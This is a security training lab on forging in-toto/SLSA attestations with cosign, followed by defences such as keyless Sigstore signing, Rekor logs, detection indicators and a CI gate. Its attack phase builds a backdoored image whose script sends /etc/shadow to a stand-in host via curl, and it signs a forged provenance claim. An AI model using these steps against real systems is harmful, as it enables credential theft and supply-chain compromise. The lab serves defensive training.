

# Lab 4.6: Attestation Forgery

<div class="lab-meta">
  <span>~25 min hands-on | ~15 min reference</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="4.4-attestation-slsa.md">Lab 4.4</a></span>
</div>

If an attacker controls the signing key, they control the attestation. They can generate a valid in-toto attestation claiming "built by GitHub Actions from main branch" for an image they built on their laptop with a backdoor.

This lab puts you in the attacker's seat: forge an attestation, pass verification, then learn how keyless signing and transparency logs make forgery detectable.

---

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Workstation | `weaklink-ws` | Has cosign, slsa-verifier, in-toto, rekor-cli, jq |
| Registry | `registry:5000` | Contains images with real and forged attestations |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. What Attestations Claim and How They Are Verified"

### Step 1: Examine a legitimate attestation

```bash
cosign download attestation registry:5000/webapp:signed | jq -r '.payload' | base64 -d | jq .
```

An in-toto attestation has three key parts:

- **`_type`**. always `https://in-toto.io/Statement/v0.1`
- **`subject`**. the artifact (identified by digest) this attestation applies to
- **`predicate`**. the claim: who built it, from what source, using which builder

### Step 2: Understand the trust model

```bash
cosign verify-attestation --key cosign.pub registry:5000/webapp:signed | jq .
```

With key-based signing, trust depends entirely on the private key. If the key is compromised or the attacker generates their own key pair, all bets are off.

---

???+ warning "Phase 2: BREAK. Forge an Attestation for a Malicious Artifact"

### Step 1: Build a backdoored image

```bash
cat > /tmp/Dockerfile.backdoor << 'EOF'
FROM registry:5000/webapp:signed
RUN echo '#!/bin/sh' > /usr/local/bin/update && \
    echo 'curl http://attacker.example/exfil?data=$(cat /etc/shadow | base64)' >> /usr/local/bin/update && \
    chmod +x /usr/local/bin/update
EOF

docker build -f /tmp/Dockerfile.backdoor -t registry:5000/webapp:backdoor .
docker push registry:5000/webapp:backdoor
MALICIOUS_DIGEST=$(crane digest registry:5000/webapp:backdoor)
echo "Malicious image digest: $MALICIOUS_DIGEST"
```

### Step 2: Generate an attacker key pair

```bash
cosign generate-key-pair --output-key-prefix attacker
```

### Step 3: Craft the forged attestation

```bash
cat > /tmp/forged-attestation.json << EOF
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "subject": [
    {
      "name": "registry:5000/webapp",
      "digest": {
        "sha256": "$(echo $MALICIOUS_DIGEST | sed 's/sha256://')"
      }
    }
  ],
  "predicateType": "https://slsa.dev/provenance/v0.2",
  "predicate": {
    "builder": {
      "id": "https://github.com/actions/runner"
    },
    "buildType": "https://github.com/actions/runner/github-hosted",
    "invocation": {
      "configSource": {
        "uri": "git+https://github.com/org/webapp@refs/heads/main",
        "digest": {"sha1": "abc123def456"},
        "entryPoint": ".github/workflows/build.yml"
      }
    }
  }
}
EOF
```

Every field is a lie, but the JSON structure is valid.

### Step 4: Sign the forged attestation

```bash
cosign attest --key attacker.key --predicate /tmp/forged-attestation.json \
  --type slsaprovenance registry:5000/webapp:backdoor
```

### Step 5: Verify. it passes

```bash
cosign verify-attestation --key attacker.pub registry:5000/webapp:backdoor | jq .
```

Verification succeeds. The signature is mathematically valid. A consumer who trusts the attacker's public key (or accepts any valid signature) will deploy the backdoored image.

---

> **Checkpoint:** You should have a forged attestation on `registry:5000/webapp:backdoor` that passes `cosign verify-attestation --key attacker.pub`. Confirm it fails with the legitimate key.

---

???+ success "Phase 3: DEFEND. Keyless Signing and Transparency Logs"

### Defense 1: Keyless signing with Sigstore

Instead of managing key pairs, use Sigstore's keyless flow. The signer authenticates via OIDC, and the signing event is logged in Rekor.

```bash
COSIGN_EXPERIMENTAL=1 cosign attest --predicate /tmp/attestation.json \
  --type slsaprovenance registry:5000/webapp:latest
```

The resulting attestation contains the OIDC issuer, the workflow identity, and a Rekor transparency log entry with a timestamp.

### Defense 2: Verify builder identity, not just signature validity

```bash
cosign verify-attestation \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  --certificate-identity-regexp "https://github.com/org/webapp/" \
  registry:5000/webapp:latest
```

This checks: (1) valid signature, (2) OIDC token came from GitHub Actions, (3) workflow identity matches expected repository. An attacker cannot forge this because they cannot obtain a valid OIDC token from GitHub Actions for your repository.

### Defense 3: Check the transparency log

```bash
rekor-cli search --sha $MALICIOUS_DIGEST
rekor-cli get --uuid <log-entry-uuid> | jq .
```

Rekor provides public auditability, non-repudiation, and tamper detection (Merkle tree).

### Defense 4: SLSA verifier with source pinning

```bash
slsa-verifier verify-image registry:5000/webapp:latest \
  --source-uri github.com/org/webapp \
  --source-tag v1.2.3 \
  --builder-id https://github.com/slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml
```

Validates the entire provenance chain: builder identity, source repository, source ref, and build configuration.

### Step 5: Verify the lab

```bash
weaklink verify 4.6
```

---

??? danger "Phase 4: DETECT. Spotting Forged or Suspicious Attestations"

| Indicator | What It Means |
|-----------|---------------|
| `cosign attest` from a developer workstation IP | Attestations created outside CI |
| Missing Rekor log entry for a signed artifact | Signing happened offline or with `--no-tlog-upload` |
| OIDC issuer mismatch in attestation certificate | Signed by a different identity provider than expected |
| `builder.id` claims GitHub Actions but OIDC issuer is not `token.actions.githubusercontent.com` | Builder identity is forged |
| Multiple attestations for the same digest signed by different identities | Conflicting provenance claims |

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Forge Web Credentials** | [T1606](https://attack.mitre.org/techniques/T1606/) | Attacker creates a valid signature that impersonates a trusted builder identity |
| **Subvert Trust Controls: Code Signing** | [T1553.002](https://attack.mitre.org/techniques/T1553/002/) | Forged attestation bypasses signature-based trust controls that gate deployment |

---

??? tip "SOC Relevance"

    **Alert:** "Attestation signer identity does not match expected builder" or "Attestation missing transparency log entry"

    Attestation forgery bypasses the strongest verification controls. If your policy is "only deploy signed and attested artifacts," an attacker who can forge attestations has carte blanche.

    **Triage steps:**

    1. Check the OIDC issuer and signer identity against the expected CI system
    2. Search Rekor for the signing event. If absent, the attestation may have been created offline
    3. Compare the attestation's `configSource.uri` against the actual repository
    4. Check the timestamp against CI pipeline execution logs
    5. If forgery is confirmed, quarantine the artifact, revoke the signing key, and audit all artifacts signed by the same identity

---

??? example "CI Integration"

    **`.github/workflows/attestation-verify.yml`:**

    ```yaml
    name: Attestation Verification Gate

    on:
      workflow_dispatch:
        inputs:
          image:
            description: "Image reference to verify"
            required: true

    jobs:
      verify-attestation:
        runs-on: ubuntu-latest
        steps:
          - name: Verify attestation with OIDC identity
            env:
              IMAGE: ${{ inputs.image }}
            run: |
              cosign verify-attestation \
                --certificate-oidc-issuer https://token.actions.githubusercontent.com \
                --certificate-identity-regexp "https://github.com/${{ github.repository_owner }}/" \
                --type slsaprovenance \
                "$IMAGE"

          - name: Verify SLSA provenance
            env:
              IMAGE: ${{ inputs.image }}
            run: |
              slsa-verifier verify-image "$IMAGE" \
                --source-uri "github.com/${{ github.repository }}" \
                --builder-id "https://github.com/slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml"
    ```

---

## What You Learned

1. **Key-based attestation signing is only as strong as the key.** An attacker with their own key pair can forge any attestation and pass verification.
2. **Keyless signing with Sigstore binds identity to attestations.** The OIDC token proves who actually signed, not just that a valid key was used.
3. **Transparency logs make forgery detectable.** Missing or inconsistent Rekor entries are a red flag.

## Further Reading

- [Sigstore: Software signing for everyone](https://www.sigstore.dev/)
- [SLSA Provenance Specification](https://slsa.dev/provenance/v1)
- [Rekor Transparency Log](https://docs.sigstore.dev/logging/overview/)
